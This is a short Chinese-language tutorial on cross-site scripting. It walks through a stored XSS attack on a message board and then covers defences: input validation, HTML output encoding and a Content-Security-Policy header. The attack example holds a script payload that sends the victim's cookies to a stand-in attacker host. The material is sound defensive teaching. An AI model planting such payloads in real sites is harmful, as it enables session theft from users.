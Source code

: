 

**示例模拟：XSS攻击**

*场景描述*：假设有一个简单的留言板应用，用户可以提交留言，并且留言会立即显示在页面上供其他用户查看。

XSS攻击步骤：

> - 攻击者发现留言板没有对用户输入进行适当的处理。
>
> - 攻击者在留言框中输入以下恶意JavaScript代码：
> - 攻击者提交留言。
> - 当其他用户查看留言板时，恶意脚本在他们的浏览器中执行，弹出警告框，并发送用户cookies到攻击者的服务器。

   

```html
 <script>
       alert('XSS攻击成功！');
       document.location.href = 'http://attacker.com/?data=' + document.cookie;
    </script>
```



 **解决方案**

 1、输入验证

> ​             对用户输入进行验证，拒绝任何不符合预期格式的输入。

 2、输出编码

> ​            在将用户输入的数据展示在页面上时，进行HTML编码。例如，将<转换为<，>转换为>等。



示例代码：

```html
function encodeHTML(str) {
   return str.replace(/&/g, '&amp;')
             .replace(/</g, '&lt;')
             .replace(/>/g, '&gt;')
             .replace(/"/g, '&quot;')
             .replace(/'/g, '&#39;');
}
// 使用encodeHTML函数对用户输入进行编码
var userComment = encodeHTML(用户的输入);
document.getElementById('comments').innerHTML = userComment;
```

 3、使用内容安全策略（CSP）

> ​        通过HTTP头部设置CSP，限制可以执行的脚本。
> 

```html
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.cdn.com;
```



